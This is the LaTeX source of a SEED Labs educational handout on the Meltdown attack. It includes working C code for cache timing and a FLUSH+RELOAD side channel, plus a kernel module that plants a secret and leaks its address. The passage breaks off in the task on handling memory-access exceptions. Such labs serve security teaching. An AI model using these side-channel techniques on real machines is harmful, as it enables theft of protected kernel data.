\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website. }

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend too much on our SEED VM. You can do this lab
using other VMs or physical machines. }







\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\lhead{\bfseries SEED Labs -- Meltdown Attack Lab}
\newcommand{\meltdownFigs}{./Figs}


\begin{document}

\begin{center}
{\LARGE Meltdown Attack Lab}
\end{center}

\seedlabcopyright{2018}


% *******************************************
% SECTION
% ******************************************* 
\section{Introduction}

Discovered in 2017 and publicly disclosed in January 2018, the Meltdown
exploits critical vulnerabilities existing in many modern processors,
including those from Intel and ARM~\cite{Lipp2018meltdown}. 
The vulnerabilities allow a user-level
program to read data stored inside the kernel memory. Such an access is not
allowed by the hardware protection mechanism implemented in most CPUs, but
a vulnerability exists in the design of these CPUs that makes it possible
to defeat the hardware protection. Because the flaw exists in the hardware,
it is very difficult to fundamentally fix the problem, unless we change the
CPUs in our computers. The Meltdown vulnerability represents a special
genre of vulnerabilities in the design of CPUs. Along with the Spectre
vulnerability, they provide an invaluable lesson for security education.


\underline{The learning objective} of this lab is for students to gain first-hand
experiences on the Meltdown attack. The attack itself is quite
sophisticated, so we break it down into several small steps, each of which
is easy to understand and perform.  Once students understand each step, it
should not be difficult for them to put everything together to perform the
actual attack. Students will use the Meltdown attack to print out a 
secret data stored inside the kernel. This lab covers a number of topics 
described in the following: 

\begin{itemize}[noitemsep]
\item Meltdown attack 
\item Side channel attack 
\item CPU Caching
\item Out-of-order execution inside CPU microarchitecture
\item Kernel memory protection in operating system
\item Kernel module
\end{itemize} 


\paragraph{Readings and videos.}
Detailed coverage of the Meltdown attack can be found in the following:

\begin{itemize}
\item Chapter 13 of the SEED Book, \seedbook
\item Section 8 of the SEED Lecture, \seedcsvideo
\end{itemize}



\paragraph{Lab Environment.} \seedenvironment

When using this lab, instructors should keep the followings in mind: 
First, the Meltdown vulnerability
is a flaw inside Intel CPUs, so if a student's machine is an AMD machine,
the attack will not work. Second, Intel is working on fixing this
problem in its CPUs, so if a student's computer uses new Intel CPUs, the 
attack may not work. It is not a problem for now (February 2018),
but six months from now, situations like this may arise. 
Third, although most students'
computers have already been patched, the attack is conducted inside our
pre-built VM, which is not patched, so the attack will still be effective.
Therefore, students should not update the VM's operating system, 
or the attack may be fixed.


\paragraph{Acknowledgment} This lab was developed with the help of 
Hao Zhang and Kuber Kohli, graduate students in the Department of
Electrical Engineering and Computer Science at Syracuse University.




% *******************************************
% SECTION
% *******************************************
%\section{Lab Environment Setup}
%\section{Tasks 1-2: Side Channel Attacks}

\newcommand{\sideChannelFigs}{./Figs}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% *******************************************
% SECTION
% *******************************************
\section{Code Compilation}
\label{sidechannel:sec:compilation}


For most of our tasks, you need to add \texttt{-march=native}
flag when compiling the code with
\texttt{gcc}. The \texttt{march} flag tells the compiler to enable all
instruction subsets supported by the local machine.
For example, we compile \texttt{myprog.c} using the following command:

\begin{lstlisting}[backgroundcolor=]
 $ gcc -march=native -o myprog myprog.c
 \end{lstlisting}





% *******************************************
% SECTION
% ******************************************* 
\section{Tasks 1 and 2: Side Channel Attacks via CPU Caches}

Both the Meltdown and Spectre attacks use CPU cache as a side channel to steal
a protected secret. The technique used in this side-channel attack is called 
FLUSH+RELOAD~\cite{Yarom2014}. 
We will study this technique first. The code developed in these two tasks will be 
used as a building block in later tasks. 


A CPU cache is a hardware cache used by the CPU of a computer 
to reduce the average cost (time or energy) to access
data from the main memory. Accessing data from CPU cache is much faster
than accessing from the main memory. When data are fetched from the main memory, they
are usually cached by the CPU, so if the same data are used again, the access
time will be much faster. Therefore, when a CPU needs to access some data, it
first looks at its caches. If the data is there (this is called cache hit), 
it will be fetched directly from there. If the data is not there (this is
called miss), the CPU will go to the main memory to get the data. The time 
spent in the latter case is significant longer. Most modern CPUs have
CPU caches. 



\begin{figure}[htb]
\centering

\includegraphics[width=0.9\textwidth]{\sideChannelFigs/cachehitmiss.pdf}
\caption{Cache hit and miss}
\label{sidechannel:fig:cachehitmiss}
\end{figure}


\subsection{Task 1: Reading from Cache versus from Memory}

The cache memory is used to provide data to the high speed processors at a faster speed. The
cache memories are very fast compared to the main memory. 
Let us see the time difference. In the following code (\texttt{CacheTime.c}), we 
have an array of size \texttt{10*4096}. We first access two of its elements,
\texttt{array[3*4096]} and \texttt{array[7*4096]}. Therefore, the pages 
containing these two elements will be cached. We then
read the elements from \texttt{array[0*4096]} to \texttt{array[9*4096]} and measure 
the time spent in the memory reading.
Figure~\ref{sidechannel:fig:cachehitmiss} illustrates the difference. 
In the code, Line \ding{192} reads the CPU's
timestamp (TSC) counter before the memory read, while Line \ding{193}
reads the counter after the memory read. Their difference is the time (in terms of number of
CPU cycles) spent in the memory read.  It should be noted that 
caching is done at the cache block level, not at the byte level. A typical cache block size 
is 64 bytes. We use \texttt{array[k*4096]}, so no two elements used in 
the program fall into the same cache block. 


\begin{lstlisting}[caption=\texttt{CacheTime.c}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[10*4096];

int main(int argc, const char **argv) {
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  
  // Initialize the array
  for(i=0; i<10; i++) array[i*4096]=1;

  // FLUSH the array from the CPU cache
  for(i=0; i<10; i++) _mm_clflush(&array[i*4096]);

  // Access some of the array items
  array[3*4096] = 100;
  array[7*4096] = 200;

  for(i=0; i<10; i++) {
    addr = &array[i*4096];
    time1 = __rdtscp(&junk);                  (*@\ding{192}@*)
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;          (*@\ding{193}@*)
    printf("Access time for array[%d*4096]: %d CPU cycles\n",i, (int)time2);
  }
  return 0;
}
\end{lstlisting}


Please compile the following code using \texttt{gcc -march=native
CacheTime.c}, and run it.  Is the access of 
\texttt{array[3*4096]} and \texttt{array[7*4096]} faster than
that of the other elements? You should run the program at least 10 times 
and describe your observations. From the experiment,
you need to find a threshold
that can be used to distinguish these two types of memory access: accessing
data from the cache versus accessing data from the main memory.  This
threshold is important for the rest of the tasks in this lab.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 2: Using Cache as a Side Channel}


\begin{figure}[htb]
\centering

\includegraphics[width=0.9\textwidth]{\sideChannelFigs/flushreload.pdf}
\caption{Diagram depicting the Side Channel Attack}
\label{sidechannel:fig:flushreload}
\end{figure}


The objective of this task is to use the side channel to extract a secret value used by the
victim function. Assume there is a victim  function that uses a secret value as index
to load some values from an array. Also assume that the secret value cannot be accessed from
the outside. Our goal is to use side channels to
get this secret value. The technique that we will be using is called 
FLUSH+RELOAD~\cite{Yarom2014}. Figure~\ref{sidechannel:fig:flushreload} illustrates the 
technique, which consists of three steps: 

\begin{enumerate}[noitemsep]

\item FLUSH the entire array from the cache memory to make sure the array is not cached. 

\item Invoke the victim function, which accesses one of the array
elements based on the value of the secret. This action causes 
the corresponding array element to be cached. 

\item RELOAD the entire array, and measure the time it takes to reload 
each element. If one specific element's loading time is fast, 
it is very likely that element is already in the cache. 
This element must be the one accessed by the victim function. 
Therefore, we can figure out what the secret value is.
\end{enumerate}


The following program uses the FLUSH+RELOAD technique to 
find out a one-byte secret value contained in the variable \texttt{secret}. 
Since there are 256 possible values for a one-byte secret, we 
need to map each value to an array element. The naive way is to define an
array of 256 elements (i.e., \texttt{array[256]}).  However, this does not
work. Caching is done at a block level, not at a byte level. If
\texttt{array[k]} is accessed, a block of memory containing this element  
will be cached. Therefore, the adjacent elements of \texttt{array[k]} 
will also be cached, making it difficult to infer what the secret is. 
To solve this problem, we create an array of \texttt{256*4096} 
bytes. Each element used in our RELOAD step is \texttt{array[k*4096]}. 
Because \texttt{4096} is larger than a typical cache block size (64 bytes), 
no two different elements \texttt{array[i*4096]} and \texttt{array[j*4096]} will
be in the same cache block.

Since \texttt{array[0*4096]} may fall into the same cache block as the variables 
in the adjacent memory, it may be accidentally cached due to the caching 
of those variables. Therefore, we should avoid using \texttt{array[0*4096]} in
the FLUSH+RELOAD method (for other index \texttt{k}, \texttt{array[k*4096]} does not
have a problem).
To make it consistent in the program, we use 
\texttt{array[k*4096 + DELTA]} for all \texttt{k} values, 
where \texttt{DELTA} is defined as a constant \texttt{1024}. 


\begin{lstlisting}[caption=\texttt{FlushReload.c}, label={sidechannel:list:flushreload}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[256*4096];
int temp;
char secret = 94;
/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;


  // Flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void victim()
{
  temp = array[secret*4096 + DELTA];
}

void reloadSideChannel() 
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
     addr = &array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
         printf("The Secret = %d.\n",i);
     }
  }	
}

int main(int argc, const char **argv) 
{
  flushSideChannel();
  victim();
  reloadSideChannel();
  return (0);
}
\end{lstlisting}
 

Please compile the program using \texttt{gcc} and run it (see Section~\ref{sidechannel:sec:compilation}
for compilation instruction).
It should be noted that the technique is not 100 percent accurate, and you may not 
be able to observe the expected output all the time. 
Run the program for at least 20 times, and count how many times 
you will get the secret correctly. You can also adjust the 
threshold \texttt{CACHE\_HIT\_THRESHOLD} to the one derived from
Task 1 (80 is used in this code). 







% *******************************************
% SECTION
% ******************************************* 
\section{Tasks 3-5: Preparation for the Meltdown Attack}


Memory isolation is the foundation of system security. In most operating systems, 
kernel memory is not directly accessible to user-space programs. This isolation is achieved 
by a supervisor bit of the processor that defines whether a memory page of the kernel can be
accessed or not. This bit is set when CPU enters the kernel space and
cleared when it exits to the user space~\cite{wiki:protectionring}. 
With this feature, kernel memory can be safely mapped into the address space 
of every process, so the page table does not need to change when a user-level program
traps into the kernel. 
However, this isolation feature is broken by the Meltdown attack, 
which allow unprivileged user-level programs to read arbitrary kernel memory.



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 3: Place Secret Data in Kernel Space}

To simplify our attack, we store 
a secret data in the kernel space, and we show how a user-level program can find out what the
secret data is. We use a kernel module to store the secret data.  The implementation of the
kernel module is provided in \texttt{MeltdownKernel.c}. 
Students' task is to compile and install the kernel module. The code is shown below. 


\begin{lstlisting}[caption=\texttt{MeltdownKernel.c}, label=meltdown:list:kernelmodule]
static char secret[8] = {'S', 'E', 'E', 'D', 'L', 'a', 'b', 's'};
static struct proc_dir_entry *secret_entry;
static char* secret_buffer;

static int test_proc_open(struct inode *inode, struct file *file)
{
#if LINUX_VERSION_CODE <= KERNEL_VERSION(4,0,0)
   return single_open(file, NULL, PDE(inode)->data);
#else
   return single_open(file, NULL, PDE_DATA(inode));
#endif
}

static ssize_t read_proc(struct file *filp, char *buffer, 
                         size_t length, loff_t *offset)
{
   memcpy(secret_buffer, &secret, 8);                  (*@\ding{192}@*)
   return 8;
}

static const struct file_operations test_proc_fops =
{
   .owner = THIS_MODULE,
   .open = test_proc_open,
   .read = read_proc,
   .llseek = seq_lseek,
   .release = single_release,
};

static __init int test_proc_init(void)
{
   // write message in kernel message buffer
   printk("secret data address:%p\n", &secret);        (*@\ding{193}@*)

   secret_buffer = (char*)vmalloc(8);

   // create data entry in /proc
   secret_entry = proc_create_data("secret_data", 
                  0444, NULL, &test_proc_fops, NULL);  (*@\ding{194}@*)
   if (secret_entry) return 0;

   return -ENOMEM;
}


static __exit void test_proc_cleanup(void)
{
   remove_proc_entry("secret_data", NULL);
}

module_init(test_proc_init);
module_exit(test_proc_cleanup);
\end{lstlisting}


Two important conditions need to be held, or Meltdown attacks will be quite difficult to
succeed. In our kernel module, we ensure that the conditions are met:

\begin{itemize}
\item We need to know the address of the target secret data. 
The kernel module saves the address of the secret data into the kernel message buffer~(Line
\ding{193}), which is public accessible; we will get the address from there. In real Meltdown
attacks, attackers have to figure out a way to get the address, or they have to guess.


\item The secret data need to be cached, or the attack's success rate will be low. 
The reason for this condition will be explained later. To achieve this, we just need to use the secret once. 
We create a data entry \texttt{/proc/secret\_data}~(Line \ding{194}), which provides a window
for user-level programs to interact with the kernel module. When a user-level program reads
from this entry, the \texttt{read\_proc()} function in the kernel module will be invoked,
inside which, the secret variable will be loaded~(Line \ding{192}) and thus be cached by the CPU. 
It should be noted that \texttt{read\_proc()} does not return
the secret data to the user space, so it does not leak the secret data. We still need
to use the Meltdown attack to get the secret.
\end{itemize}


\paragraph{Compilation and execution.}
Download the code from the lab website, and go to the directory that contains 
\textit{Makefile} and \textit{MeltdownKernel.c}. Type the \texttt{make} command
to compile the kernel module. 
To install this kernel module, use the \texttt{insmod} command. 
Once we have successfully installed the kernel module, we can 
use the \texttt{dmesg} command to find the 
secret data's address from the kernel message buffer. Take a note of this address, as we need
it later.

\begin{lstlisting}
 $ make
 $ sudo insmod MeltdownKernel.ko
 $ dmesg | grep 'secret data address'
 secret data address: 0xfb61b000
\end{lstlisting}
 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 4: Access Kernel Memory from User Space}

Now we know the address of the secret data, let us do an experiment to see 
whether we can directly get the secret from this address or not. 
You can write your own code for this experiment. We provide
a code sample in the following. For the address in Line \ding{192}, 
you should replace it with the address obtained from the previous task. 
Compile and run this program (or your own code) and describe your observation. 
Will the program succeed in Line \ding{193}? Can the program execute 
Line \ding{193}?

\begin{lstlisting}
int main()
{
  char *kernel_data_addr = (char*)0xfb61b000;  (*@\ding{192}@*)
  char kernel_data = *kernel_data_addr;        (*@\ding{193}@*)
  printf("I have reached here.\n");            (*@\ding{194}@*)
  return 0;
}
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 5: Handle Error/Exceptions in C}


From Task 4, you have probably learned that accessing a kernel memory from the user space will
cause the program to crash. In the Meltdown attack, we need to do something 
after accessing the kernel memory, so we cannot let the program crash. 
Accessing prohibited memory location will raise a SIGSEGV signal; if a program does not 
